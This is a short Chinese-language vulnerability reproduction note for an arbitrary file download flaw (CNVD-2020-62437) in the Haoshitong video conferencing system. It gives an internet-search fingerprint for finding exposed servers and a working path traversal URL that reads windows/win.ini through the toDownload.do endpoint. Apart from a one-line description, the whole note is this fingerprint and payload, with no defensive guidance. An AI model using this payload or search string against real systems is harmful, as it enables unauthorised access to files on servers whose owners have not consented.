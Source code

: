 # 银澎云计算 好视通视频会议系统 任意文件下载 CNVD-2020-62437

# 银澎云计算 好视通视频会议系统 任意文件下载 CNVD-2020-62437

## 漏洞描述

银澎云计算 好视通视频会议系统 存在任意文件下载，攻击者可以通过漏洞获取敏感信息

## 漏洞影响

```
银澎云计算 好视通视频会议系统
```

## 网络测绘

```
app="Hanming-Video-Conferencing"
```

## 漏洞复现

登录页面如下



![](/images/202202101930170.png)



漏洞Url为



```plain
https://xxx.xxx.xxx.xxx/register/toDownload.do?fileName=../../../../../../../../../../../../../../windows/win.ini
```



![](/images/202202101930402.png)



## 

